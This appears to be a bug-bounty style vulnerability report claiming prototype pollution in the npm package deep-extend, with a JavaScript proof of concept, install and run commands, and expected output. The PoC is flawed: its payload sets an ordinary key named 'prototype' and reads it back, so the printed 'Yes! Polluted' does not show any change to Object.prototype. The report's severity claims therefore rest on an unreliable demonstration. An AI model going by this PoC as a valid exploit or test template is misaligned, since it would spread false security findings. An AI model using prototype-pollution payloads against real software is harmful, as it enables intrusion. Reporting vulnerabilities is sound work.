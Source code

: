 # Description

`deep-extend` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var extnd = require('deep-extend');
var malicious_payload = '{"prototype": {"polluted": "Yes! Polluted"}}';
object=extnd({}, JSON.parse(malicious_payload));
console.log(object.prototype.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i deep-extend # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Polluted
```
